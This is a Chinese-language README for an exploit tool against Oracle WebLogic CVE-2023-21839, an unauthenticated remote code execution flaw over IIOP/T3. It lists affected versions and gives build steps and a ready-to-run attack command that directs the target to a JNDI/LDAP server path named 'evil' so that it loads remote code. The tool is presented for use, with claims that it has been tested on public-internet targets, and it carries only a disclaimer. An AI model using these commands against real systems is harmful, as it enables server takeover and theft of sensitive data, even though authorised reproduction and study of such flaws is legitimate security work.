

# CVE-2023-21839

**未经授权许可使用本项目攻击或测试目标是非法的，本程序应仅用于授权的安全测试与研究目的**

## 来源

[https://github.com/4ra1n/CVE-2023-21839](https://github.com/4ra1n/CVE-2023-21839)

## 影响范围

-   WebLogic_Server = 12.2.1.3.0
-   WebLogic_Server = 12.2.1.4.0
-   WebLogic_Server = 14.1.1.0.0

## 漏洞简介

WebLogic 存在远程代码执行漏洞（CVE-2023-21839/CNVD-2023-04389），由于Weblogic IIOP/T3协议存在缺陷，当IIOP/T3协议开启时，允许未经身份验证的攻击者通过IIOP/T3协议网络访问攻击存在安全风险的WebLogic Server，漏洞利用成功WebLogic Server可能被攻击者接管执行任意命令导致服务器沦陷或者造成严重的敏感数据泄露。

## 项目介绍

Weblogic CVE-2023-21839 RCE

（1）**无需任何 Java 依赖，构造协议通过socket直接RCE**

（2）已解决 IIOP 的 NAT 网络问题（可测试 Docker 与公网目标）

（3）在 Windows/Mac OS/Linux 以及 Weblogic 12/14 中测试通过

（4）请使用 JDK 8u191 以下启动 Weblogic 并自行搭建 JNDI Server

## 使用

你可以通过 vulhub 复现：[链接](https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2023-21839)

Linux/Mac OS

```shell
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows

```shell
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

如果发现 panic 或有其他报错，说明目标不存在漏洞（或关闭了 IIOP 功能）

本地测试：



某师傅公网测试：


## 免责声明

此工具仅作为网络安全攻防研究交流，请使用者遵照网络安全法合理使用！

如果使用者使用该工具出现任何非法攻击等违法行为，与作者无关！
